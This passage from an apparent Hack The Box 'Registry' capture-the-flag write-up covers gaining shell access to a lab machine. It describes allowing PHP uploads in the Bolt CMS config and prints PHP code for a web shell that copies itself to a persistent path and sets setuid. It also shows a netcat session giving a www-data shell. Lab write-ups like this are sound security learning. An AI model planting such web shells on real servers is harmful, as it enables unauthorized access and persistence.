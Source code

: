 The latter can be tackled pretty easily by heading into the main CMS configuration file and adjusting the `accept_file_types` option to also allow PHP files. The configuration file explicitly states that PHP files will not be allowed even if they are listed as accepted, but for some reason that's just not true. I could easily upload PHP files, granted I stuck to the short timing window I hinted at earlier. All configuration files are reset along with the upload folder so it's all just a matter of timing.

The former requires some creativity to circumvent. I decided to refresh my PHP a little and write a custom web shell. It is self-aware in a sense that if I access it in my browser after uploading it to the `files` directory, it copies itself to a more stable location. You can find the code to accomplish that below. If you want to have a look at the entire web shell, you can find the source code in my [CTF snippet repository](https://github.com/JoogsWasTaken/ctf-snippets/tree/master/HTB/Registry).

```php
<?php
    if (basename(__FILE__) == "cpshell.php") {
        if (copy("/var/www/html/bolt/files/cpshell.php", "/var/www/html/shell.php")) {
            system("chmod u+s /var/www/html/shell.php");
            echo("Copied successfully.");
        } else {
            echo("Copy failed.");
        }
        
        exit();
    }
    // web shell stuff
?>
```

Now by navigating to `registry.htb/shell.php` in my browser, I could access my web shell and be sure that it persisted for a bit longer. I could now issue commands as the web user and this time, there was a clear way to escalating privileges.

{{< figure src="/images/htb/registry/www-root.png" alt="Custom web shell running id to check identity" caption="Using the web shell to verify web user" >}}

{{< figure src="/images/htb/registry/sudo.png" alt="Custom web shell running sudo -l to check sudo privileges" caption="Investigating sudo privileges as the web user" >}}

Nothing beats a proper reverse shell though, and fortunately `ncat` is present on the machine which is more than just convenient. Now I was able to investigate what I can accomplish using the web user.

```text
kali@kali:~$ nc registry.htb 4242
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Backing it up

As shown earlier, there is an interesting binary that I can execute with `sudo` as the web user: `/usr/bin/restic`. [Restic](https://restic.net/) is a backup utility. It allows its users to create backups of files and directories and stores them in repositories so they can be restored later at any time. Repositories can be just a backup directory on the file system or a remote server. [There's a wide variety of options, really](https://restic.readthedocs.io/en/latest/030_preparing_a_new_repo.html).
